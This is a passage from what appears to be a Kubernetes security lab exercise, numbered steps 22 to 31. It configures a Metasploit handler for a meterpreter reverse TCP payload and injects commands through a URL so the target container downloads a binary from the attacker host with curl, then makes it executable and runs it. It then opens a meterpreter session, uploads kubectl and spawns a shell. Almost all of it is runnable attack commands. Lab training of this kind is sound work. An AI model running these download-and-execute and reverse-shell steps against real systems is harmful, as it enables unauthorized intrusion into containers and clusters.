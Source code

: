 22. Set the handler to catch the corresponding payload to the one we specified in our `msfvenom` line:

    ```shell
    set payload linux/x86/meterpreter/reverse_tcp
    ```

23. Set the receiving host to `10.23.58.30`:

    ```shell
    set LHOST 10.23.58.30
    ```

24. Set `ExitOnSession` to `false`, so the handler can catch multiple incoming reverse shell connections:

    ```shell
    set ExitOnSession false
    ```

25. Now start the handler as a background job:

    ```shell
    exploit -j
    ```

26. Go back to your browser and change the `id` command in the URL bar into the following, so the target container will request the `mrsbin` binary from our web server, then hit the submit button:

    ```
    curl -o /tmp/mrsbin http://10.23.58.30/mrsbin
    ```

27. Now change the command in the URL bar to this one, so the target container will make the `mrsbin` binary executable and run it, and then hit the submit button:

    ```
    chmod 755 /tmp/mrsbin ; /tmp/mrsbin
    ```


28. Go check your Metasploit console. You should now see a line that reads something like "Meterpreter session 1 opened…"

29. Interact with this new session:

    ```shell
    sessions -i 1
    ```

30. Upload a copy of kubectl:

    ```shell
    upload /root/K8S-Exercise/kubectl
    ```

31. Instruct Meterpreter to give you a minimal interactive shell. You won't get any immediate feedback from the system, just a "Process … created" and "Channel … created" line from Metasploit.

    ```shell
    shell
    ```

